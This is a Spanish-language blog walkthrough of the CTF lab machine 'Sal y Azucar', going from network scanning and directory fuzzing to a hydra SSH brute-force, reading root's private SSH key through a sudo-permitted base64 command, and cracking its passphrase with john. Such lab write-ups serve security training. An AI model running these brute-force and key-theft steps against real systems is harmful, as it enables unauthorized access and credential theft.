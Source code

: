```yaml
---
layout: post
title: "Sal y Azucar"
date: 2024-06-14 10:55:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Sal y Azucar </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/sal-y-azucar/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/SalyAzucar/host.png){:.margin}

**1\.** Escaneo dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/SalyAzucar/arp.png){:.margin}

**2\.** Escaneo puertos y servicios en la maquina.

`sudo nmpa -p- --open -n -Pn -sCV --min-rate=5000 -T5 192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/nmap.png){:.margin}

**3\.** En la web tenemos el apache por defecto.

`http://192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/80.png){:.margin}

**4\.** Hago fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/thehackerlabs/SalyAzucar/gobuster.png){:.margin}

**5\.** Dentro de summary encuentro un html, este me da un mensaje.

`http://192.168.1.6/summary/summary.html`

![img](/notas/public/img/thehackerlabs/SalyAzucar/summary.png){:.margin}

**6\.** Tras no tener mas nada, hago bruteforce al ssh tanto al usuario como la contraseña.

`hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /user/share/wordlists/rockyou.txt ssh://192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/hydra.png){:.margin}

**7\.** Accedo por el ssh.

`ssh info@192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/ssh.png){:.margin}

**8\.** Revisando los permisos sudo.

`sudo -l`

![img](/notas/public/img/thehackerlabs/SalyAzucar/sudol.png){:.margin}

**9\.** Ya que podemos ejecutarlo como root, encodeo y decodeo el id_rsa de root.

`sudo base64 /root/.ssh/id_rsa | base64 -d`

![img](/notas/public/img/thehackerlabs/SalyAzucar/base64.png){:.margin}

**10\.** Crackeando un passphrase del id_rsa de root.

_10.1- Lo guardo en un archivo_

`nano id_rsa`

![img](/notas/public/img/thehackerlabs/SalyAzucar/idrsa.png){:.margin}

_10.2- Usando john para encontrar el passphrase_

`ssh2john id_rsa > key`

`john --wordlist=/usr/share/wordlists/rockyou.txt key`

![img](/notas/public/img/thehackerlabs/SalyAzucar/john.png){:.margin}

**11\.** Obteniendo el super usuario.

_11.1- Le doy los permisos pertinentes la idrsa_

`chmod 600 id_rsa`

![img](/notas/public/img/thehackerlabs/SalyAzucar/chmodidrsa.png){:.margin}

_11.2- Accediendo por ssh_

`ssh -i id_rsa root@192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>